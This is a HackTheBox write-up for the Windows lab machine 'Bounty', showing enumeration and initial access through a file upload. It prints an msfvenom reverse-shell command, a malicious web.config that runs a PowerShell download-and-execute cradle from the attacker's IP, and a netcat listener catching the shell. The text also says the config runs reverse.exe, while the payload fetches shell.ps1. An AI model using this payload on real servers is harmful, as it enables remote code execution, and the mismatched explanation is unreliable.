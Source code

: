 ```yaml
---
title: "Bounty"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Bounty

![](assets/Pasted%20image%2020250609203557.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.93
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 23:35 CEST
Nmap scan report for 10.10.10.93
Host is up (0.042s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.62 ms 10.10.14.1
2   41.92 ms 10.10.10.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.88 seconds
```

The only open `port` shows an image of `merlin`.

![](assets/Pasted%20image%2020250609234035.png)

With `feroxbuster` we discover `/transfer.aspx`.

![](assets/Pasted%20image%2020250609234456.png)

![](assets/Pasted%20image%2020250610111729.png)

## Initial Access

I could use a double extension or null byte but can't reach the file, so searching for aspx config files, we can upload a `web.config` one with a reverse shell command.

Create a `msfvenom` reverse shell and start a Python HTTP server and a listener, then upload the `web.config`.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=5555 -f exe -o reverse.exe
```

```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.17:8000/shell.ps1')")
%>
```

Upon visiting `/uploadedfiles/web.config`, the config will get the `reverse.exe` and execute it.

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.93] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

Get the flag

## Privilege Escalation

![](assets/Pasted%20image%2020250610181107.png)

!!! bug

    ABORTED: The user has `SeImpersonatePrivilege` but nothing worked.
